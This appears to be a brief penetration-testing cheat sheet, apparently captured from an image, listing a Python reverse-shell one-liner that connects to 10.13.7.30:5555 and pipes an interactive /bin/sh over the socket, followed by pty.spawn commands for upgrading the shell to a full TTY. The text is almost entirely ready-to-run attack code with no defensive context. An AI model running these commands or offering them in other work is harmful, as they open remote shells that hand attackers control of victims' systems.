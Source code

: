 python

Reverse Shell

~~~python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.7.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

TTY Support for Linux

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~python
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

